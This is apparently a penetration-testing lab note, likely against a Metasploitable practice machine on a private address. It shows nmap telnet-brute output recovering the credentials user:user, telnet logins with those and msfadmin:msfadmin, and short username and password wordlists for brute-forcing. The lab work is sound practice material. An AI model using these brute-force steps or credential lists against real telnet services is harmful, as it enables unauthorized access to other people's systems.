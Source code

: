 
Results
------------
23/tcp   open  telnet
| telnet-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 2914 guesses in 616 seconds, average tps: 4.8


- here we are getting valid user credentials. using this try to login.


Telnet login:
----------------
# telnet 192.168.0.101 23

- Username: user
- Password: user

- Valid user.


- Username: msfadmin
- Password: msfadmin

---------------------------------------------------------------------------------------

seclist file
--------------------
- first create user and pass list

- usernames
admin
user
hacker
ajay
icss
msfadmin
root
kali
pen



- passwords
password
user
msfadmin
toor
ajay
cracker
book
kali
pass123
